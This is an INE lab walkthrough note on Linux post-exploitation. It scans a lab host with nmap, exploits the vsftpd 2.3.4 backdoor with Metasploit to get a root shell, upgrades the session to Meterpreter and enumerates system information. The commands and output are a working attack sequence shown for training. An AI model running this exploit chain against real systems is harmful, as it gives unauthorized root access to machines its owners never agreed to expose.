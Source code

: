 # 🔬Linux Post-Exploitation

> 🔬 INE LAB
>
> - Target IP: `192.218.227.3`
> - **Local Linux Enumeration**

> 📝📌 **Always document and save all the Post-Exploitation Local Enumeration in a local file.**

## Enumeration & Exploitation

```bash
nmap -sV 192.218.227.3
	21/tcp open  ftp  vsftpd 2.3.4
```

```bash
searchsploit vsftpd 2.3.4
service postgresql start && msfconsole -q
```

```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
setg RHOSTS 192.218.227.3
setg RHOST 192.218.227.3
run
    [+] 192.218.227.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
    [*] Found shell.

/bin/bash -i
	root@victim-1:~/vsftpd-2.3.4#
```

```bash
# CTRL+Z
sessions -u 1
sessions 2
	meterpreter >
```

## Local Enumeration

### System Information

- In the **`Meterpreter`** session

```bash
getuid
	Server username: uid=0, gid=0, euid=0, egid=0
```

```bash
sysinfo
    Computer     : 192.218.227.3
    OS           : Debian 9.5 (Linux 5.4.0-131-generic)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
```
